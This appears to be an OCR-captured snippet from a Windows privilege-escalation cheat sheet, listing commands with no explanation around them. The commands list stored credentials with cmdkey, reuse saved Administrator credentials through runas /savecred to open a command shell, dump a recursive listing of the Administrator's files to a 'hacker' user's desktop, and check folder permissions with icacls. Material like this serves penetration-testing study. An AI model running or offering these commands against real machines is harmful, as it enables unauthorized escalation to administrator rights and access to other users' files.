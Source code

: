 #show stored creds  
cmdkey /list  
  
#run as admin  
runas /savecred /user:Administrator "cmd.exe"  
runas /savecred /user:Administrator "cmd.exe /c dir /b /a /s c:\users\administrator > c:\users\hacker\desktop\files.txt"  
  
#check access  
icacls c:\users\administrator